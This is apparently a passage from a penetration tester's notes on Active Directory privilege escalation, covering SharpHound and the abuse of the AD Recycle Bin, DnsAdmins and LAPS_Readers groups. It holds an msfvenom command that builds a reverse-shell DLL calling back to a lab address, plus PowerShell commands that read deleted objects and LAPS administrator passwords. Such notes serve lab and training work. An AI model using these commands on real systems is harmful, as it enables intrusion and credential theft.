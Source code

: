 **Why we use SharpHound**:  
We use <a href="https://github.com/SpecterOps/SharpHound/releases/tag/v1.1.0" target="_blank">SharpHound</a> because it performs a more thorough scan of the domain from within the network. It reveals detailed relationships and permissions that may not be accessible remotely, providing critical information for privilege escalation.

**DISCLAIMER**: If you are using **BloodHound** installed from Kali's APT repository, you will need to run **SharpHound v1.1.0**. Otherwise, your data will not load properly.

### Privileged AD Group Abuse
---
#### AD-Recycle Bin
---
The **AD Recycle Bin** is a feature in Active Directory that allows the recovery of deleted objects, such as users, groups, or computers, without requiring backups. Being part of this group, we can potentially enumerate and extract information from deleted objects in the domain.

````powershell
Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects # Filter for deleted objects
Get-ADObject -Filter 'SAMAccountName -eq "User"' -IncludeDeletedObjects -Properties * # Filter for users
Get-ADObject -ldapfilter "(&(ObjectClass=user)(DisplayName=TempAdmin)(isDeleted=TRUE))" -IncludeDeletedObjects -Properties *
Restore-ADObject -Identity <ObjectGUID> # Restore objects
````

#### Dns-Admins
---
 **DnsAdmins** group consists of users who have special permissions to manage and configure DNS settings on a Windows machine. Members of this group typically have the ability to create, modify, and delete DNS records in Active Directory-integrated zones. By default, this group does not have permission to start or stop the DNS service, but administrators can assign additional privileges to members, which may include the ability to control the DNS service.

We create our malicious plugin using msfvenom

````bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.9 LPORT=4444 -f dll -o whare.dll
````

Next steps explianed <a href="https://whare1.github.io/posts/Resolute-Writeup/" target="_blank">on resolute writeup</a>

#### LAPS_Readers
---
**LAPS_Readers** is a built-in group in Active Directory, specifically for **Local Administrator Password Solution (LAPS)**. Members of this group have **read-only access** to the local administrator passwords of managed machines in the domain. These passwords are automatically generated and stored securely in Active Directory by LAPS.

In short, **LAPS_Readers** allows members to **view** the local administrator passwords, but not to modify or manage them.

````powershell
Get-ADComputer -Filter * | Select-Object Name
Get-ADComputer -Identity "DC01" -Properties ms-Mcs-AdmPwd
````